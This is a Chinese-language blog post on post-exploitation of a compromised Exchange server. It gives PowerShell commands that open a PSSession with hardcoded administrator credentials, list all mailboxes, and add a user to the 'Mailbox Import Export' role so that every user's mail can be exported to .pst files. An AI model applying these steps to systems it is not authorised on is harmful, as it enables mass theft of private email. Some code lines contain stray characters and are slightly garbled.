

* * *



当我们拿到了Exchange邮箱服务器权限后，我们可以进行进一步的利用。比如导出所有用户的邮件、搜索特定用户的敏感邮件等等。



使用PSSession连接Exchange服务器管理邮件

============================



首先使用PSSession连接Exchange服务器



```
#使用PSSession连接Exchange服务器      
$User = "xie\administrator"      
$Pass = ConvertTo-SecureString -AsPlainText P@ssword1234 -Force      
$Credential = New-Object System.Management.Automation.PSCredential -ArgumentList $User,$Pass      
$Session = New-PSSession -ConfigurationName Microsoft.Exchange -ConnectionUri http://mail.xie.com/PowerShell/ -Authentication Kerberos -Credential $Credential      
Import-PSSession $Session -AllowClobber       
#查看所有用户邮箱地址      
Get-Mailbox       1
#查看PSSession      1
Get-PSSession      1
#断开PSSession      1
Remove-PSSession $Session
```




![](https://img-blog.csdnimg.cn/20210705152435466.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



导出邮件

----



在使用PSSession连接Exchange服务器后，执行以下操作导出邮件



1.  将用户添加到角色组”Mailbox Import Export”

2.  重新启动Powershell否则，无法使用命令`New-MailboxexportRequest`

3.  导出邮件，导出的文件格式后缀为 .pst，可以用 outlook打开



将用户从角色组”Mailbox Import Export” 添加、移除



```
#将用户hack添加到Mailbox Import Export组      
New-ManagementRoleAssignment –Role "Mailbox Import Export" –User administrator       
#查看Mailbox Import Export组内的用户      
Get-ManagementRoleAssignment –Role "Mailbox Import Export"|fl user       
#将用户hack从Mailbox Import Export组移除      
Remove-ManagementRoleAssignment -Identity "Mailbox Import Export-administrator      
" -Confirm:$false
```
